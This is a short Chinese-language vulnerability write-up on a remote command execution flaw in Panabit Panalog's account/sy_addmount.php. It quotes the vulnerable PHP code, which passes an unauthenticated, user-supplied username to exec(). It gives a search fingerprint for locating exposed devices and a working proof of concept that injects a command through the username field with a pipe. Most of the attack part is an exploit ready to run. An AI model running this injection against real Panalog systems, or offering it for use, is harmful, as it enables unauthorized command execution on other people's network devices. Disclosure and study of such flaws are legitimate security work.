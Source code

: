 # Panabit Panalog sy_addmount.php 远程命令执行漏洞

## 漏洞描述

Panabit Panalog sy_addmount.php过滤不足，导致远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>Panabit Panalog</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="Maintain/cloud_index.php"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1628866447890-ec66a2c3-2dab-4500-a9a8-a68823931f3c.png)

存在漏洞的代码为 **account/sy_addmount.php**

```bash
<?php

include(dirname(__FILE__)."/../common.php");

$username = isset($_REQUEST["username"]) ? $_REQUEST["username"] : "";
if (empty($username)) {
	echo '{"success":"no", "out":"NO_USER"}';
	exit;
}

$username = addslashes($username);

$rows = array();

$cmd = PANALOGEYE." behavior add account=$username";
exec($cmd, $out, $ret);
echo $out[0];
exit;
```

其中没有对身份进行鉴权，且 username 可控，构造POC

```bash
POST /account/sy_addmount.php

username=|id
```

![img](../../../.vuepress/public/img/1678237279001-8e9ce97e-d0d5-44c0-b2b1-e1e9550c6e3a.png)